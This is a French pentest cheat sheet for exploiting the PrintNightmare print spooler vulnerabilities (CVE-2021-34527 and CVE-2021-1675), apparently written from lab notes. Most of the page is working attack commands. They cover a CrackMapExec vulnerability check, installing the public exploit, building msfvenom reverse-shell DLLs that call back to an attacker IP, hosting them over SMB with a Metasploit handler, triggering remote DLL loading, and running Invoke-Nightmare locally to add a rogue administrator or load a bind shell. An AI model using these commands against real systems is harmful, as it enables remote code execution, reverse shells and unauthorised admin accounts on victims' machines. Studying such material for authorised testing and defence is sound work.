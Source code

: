 ```yaml
---
public: true
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)

## Vérification

```shell
cme smb targets.txt -d INLANEFREIGHT.LOCAL -u 'ssmalls' -p 'Password123!'  -M printnightmare
[*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
[+] INLANEFREIGHT.LOCAL\ssmalls:Password123! 
Vulnerable, next step https://github.com/ly4k/PrintNightmare
```

## Exploitation

### A distance

#### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

#### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

#### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```

### Localement

On pourra utiliser ce POC qui s'appuie sur powershell : <https://github.com/calebstewart/CVE-2021-1675>

#### Vérification de la disponibilité du spooler

```powershell
ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

#### Exécution de l'attaque

<https://github.com/cube0x0/CVE-2021-1675>

#### Chargement du module

```powershell
Set-ExecutionPolicy Bypass -Scope Process

Import-Module .\cve-2021-1675.ps1
```

#### Création d'un compte administrateur local

```shell
# Add a new user to the local administrators group by default:
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 

```

#### Chargement d'une DLL de notre choix (reverse shell par exemple)

```shell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

#### Vérification

```shell
net user hacker
```
